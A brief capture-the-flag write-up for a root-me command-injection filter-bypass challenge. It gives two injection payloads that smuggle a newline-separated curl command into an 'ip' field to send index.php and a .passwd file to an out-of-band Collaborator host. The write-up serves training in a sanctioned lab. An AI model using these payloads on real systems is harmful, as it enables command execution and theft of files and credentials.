 # Command injection: filter bypass

[root-me challenge: Command injection - Filter bypass](https://www.root-me.org/en/Challenges/Web-Server/Command-injection-Filter-bypass): Find a vulnerability in this service and exploit it. Some protections were added. The flag is in the `index.php` file.

----

Either use Burp Collaborator or [one of its alternatives](https://testlab.tymyrddin.dev/docs/webapp/oast-alt):

```text
ip=127.0.0.1+%0A+curl+--data+"@index.php"+jobc0c724o9snp1oq21rh50ex53wrnfc.oastify.com
```

leading to:

```text
ip=127.0.0.1+%0A+curl+-X+POST+--data+"@.passwd"+jobc0c724o9snp1oq21rh50ex53wrnfc.oastify.com
```



